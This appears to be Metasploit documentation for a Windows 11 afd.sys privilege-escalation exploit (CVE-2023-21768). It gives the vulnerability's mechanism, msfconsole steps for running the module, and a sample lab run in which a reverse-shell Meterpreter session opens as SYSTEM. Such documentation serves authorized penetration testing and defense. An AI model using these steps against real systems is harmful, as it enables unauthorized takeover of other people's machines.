 ## Vulnerable Application

A vulnerability exists in the Windows Ancillary Function Driver for Winsock
(`afd.sys`) can be leveraged by an attacker to escalate privileges to those of
NT AUTHORITY\SYSTEM. Due to a flaw in `AfdNotifyRemoveIoCompletion`, it is
possible to create an arbitrary kernel Write-Where primitive, which can be used
to manipulate internal I/O ring structures and achieve local privilege
escalation.

This exploit only supports Windows 11 22H2 up to build 22621.963 (patched in
January 2023 updates).

### Installation And Setup
Windows 11 versions 22H2 (without the patch) are vulnerable out of the box.
This exploit module has been tested on Windows 11 versions 22H2 build 22621.525
and 22621.963.

## Options
No specific options to be set.

## Verification Steps

1. Start msfconsole
1. Get a Meterpreter session on a vulnerable host
1. Do: `use windows/local/cve_2023_21768_afd_lpe`
1. Set the `SESSION` and `PAYLOAD` options
1. Do: `run`
1. You should get a privileged session.

## Scenarios

### Windows 11 Version 22H2 Build 22621.963 x64
```
msf exploit(windows/local/cve_2023_21768_afd_lpe) > run verbose=true

[*] Started reverse TCP handler on 192.168.100.9:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Windows Build Number = 22621.963
[+] The target appears to be vulnerable.
[*] Launching netsh to host the DLL...
[+] Process 3748 launched.
[*] Reflectively injecting the DLL into 3748...
[*] Sending stage (200774 bytes) to 192.168.100.9
[+] Exploit finished, wait for (hopefully privileged) payload execution to complete.
[*] Meterpreter session 11 opened (192.168.100.9:4444 -> 192.168.100.9:55346) at 2023-03-27 18:46:08 +0200

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter > sysinfo
Computer        : WIN11PRO
OS              : Windows 10 (10.0 Build 22621).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 2
Meterpreter     : x64/windows
```

